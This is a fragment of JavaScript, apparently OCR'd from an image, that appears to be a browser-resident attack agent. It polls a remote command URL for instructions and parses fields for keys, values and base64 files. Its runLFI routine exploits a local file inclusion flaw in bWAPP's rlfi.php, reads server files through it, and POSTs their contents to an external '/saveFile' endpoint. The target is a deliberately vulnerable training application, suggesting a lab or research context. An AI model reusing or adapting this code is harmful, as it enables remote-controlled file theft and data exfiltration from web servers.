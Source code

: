 ```
    if (element[0] == VALUE) {
        value = element[1];
    }
    if (element[0] == KEY) {
        key = element[1];
    }
    if (element[0] == BASE64FILE) {
        base64File = element[1];
    }
    if (element[0] == UPLOADFILENAME) {
        uploadFileName = element[1];
    }
}

function resetCommand(){
    command = "";
    lfiFile = "";
    value = "";
    key = "";
    base64File = "";
    uploadFileName = "";
}

async function getCommand() {
    let response = await fetch(commandUrl,{
        headers: 
        {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        method: "POST"
    })
    let text = await response.text()
    splittedBody = text.split("&");
    splittedBody.forEach(function(element){
        parseCommand(element)
    });
}

async function runLFI() {
    var urlOfThePage = window.location.protocol + "//" + window.location.host
    lfiTarget = urlOfThePage + "/bWAPP/rlfi.php?language="+lfiFile+"&action=go";
    dataSaveUrl = serverURL + "/saveFile"
    let response = await fetch(lfiTarget);
    let data = await response.text();
    var parser = new DOMParser();
    var htmlDoc = parser.parseFromString(data, 'text/html');
    
    var text = htmlDoc.getElementById("main").innerText;
    fileContent = text.substring(text.indexOf('Go') + 2);
    console.log(lfiFile)
    await fetch(dataSaveUrl,{
        body: "fileContent=" + encodeURIComponent(fileContent) + "&fileName=" + encodeURIComponent(lfiFile), 
        headers: 
        {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        method: "POST"
    })
}

function base64toBlob(base64Data, contentType) {
    contentType = contentType || '';
```